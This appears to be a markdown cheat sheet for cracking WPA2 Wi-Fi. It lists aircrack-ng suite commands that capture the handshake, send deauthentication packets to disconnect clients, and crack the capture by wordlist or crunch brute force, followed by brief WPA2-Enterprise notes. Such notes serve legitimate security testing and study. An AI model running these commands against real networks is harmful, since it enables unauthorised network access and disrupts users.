 ### general information
```
4 way handshake for authentiation
every user get single session (Pairwise Transient key - PTK, calculated from Pairwise Master Key - PMK)
replay protected
```

### capture hanshake
```
airmon-ng check
airmon-ng check kill
airmon-ng start <interface>
airodump-ng <interface> --bssid <bssid> --channel <channel> --write <file>
```

### if there are some problems starting the interface you can try
```
rfkill unblock all
```

### send deauthenticate packets
```
aireplay-ng --deauth 5 -a <bssid> <interface>
```
 
### crack captured handshake using wordlist
```
aircrack-ng <file>.cap -w <wordlist>
```

### bruteforce captured handshake
```
crunch 8 10 [a-z;A-Z;0-9] | aircrack-ng <file>.cap -b <bssid> -w-
```
 
### general information about WPA2-Enterprise
```
No global key
Radius server used for authentication
```

### EAP-Types (without outer tunnel):
```
EAP-MD5
EAP-LEAP
```

### EAP-Types (with outer tunnel):
```
EAP-FAST
PEAP
EAP-TLS
```

